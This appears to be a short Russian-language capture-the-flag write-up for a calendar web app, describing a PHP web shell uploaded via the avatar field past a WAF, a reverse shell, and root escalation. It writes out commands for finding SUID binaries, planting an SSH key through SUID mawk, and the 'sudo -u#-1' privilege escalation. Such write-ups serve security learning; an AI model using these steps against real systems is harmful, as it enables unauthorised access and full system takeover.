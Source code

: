 # Описание 
Наконец-то написал свой календарик под ключ!

# Решение 
Регаем пользователя

<img width="1003" alt="image" src="https://github.com/user-attachments/assets/8343b188-f131-49b7-be81-9e7271b7a1a7" />


Подгружаем при помощи ссылки php-шелл на место аватарки, байпаснув несложный WAF 

<img width="657" alt="image" src="https://github.com/user-attachments/assets/f8b7a83a-3d1d-4d40-91bf-668cd94c9057" />

После получения RCE, пробрасываем reverse-shell

Далее проводим перечисление ресурсов системы доходим до:

```
find / -perm /4000 2>/dev/null
```

Через найденный suid-бит на awk записываем ssh ключ в директорию пользователя 

```
mawk 'BEGIN { print "ssh-rsa <key>" > "/home/sakura/.ssh/authorized_keys" }'
```

Повышение до рута через уязвимую версию sudo:
```
sudo -u#-1 /bin/bash
```
